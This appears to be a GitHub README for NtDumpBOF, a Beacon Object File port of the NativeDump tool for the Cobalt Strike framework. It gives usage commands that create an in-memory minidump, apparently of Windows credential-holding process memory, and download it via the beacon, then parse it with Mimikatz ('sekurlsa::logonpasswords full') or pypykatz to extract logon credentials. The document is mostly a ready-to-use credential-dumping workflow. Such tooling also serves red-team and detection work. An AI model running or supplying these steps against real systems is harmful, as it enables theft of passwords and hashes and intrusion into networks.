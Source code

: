 # NtDumpBOF

BOF port of the tool https://github.com/ricardojoserf/NativeDump written by @ricardojoserf.

Import NtDump.cna and run:

```
ntdump <filename>
```
The minidump file will be created in memory and downloaded using the CALLBACK_FILE and CALLBACK_FILE_WRITE.
Once downloaded it will be minidump file will be visible at **View** -> **Download**.

This can subsequently be parsed using Mimikatz

```
mimikatz # sekurlsa::minidump <file path to downloaded minidump file>
mimikatz # sekurlsa::logonpasswords full
```

Or pypykatz

```
pypykatz lsa minidump <file path to downloaded minidump file>
```
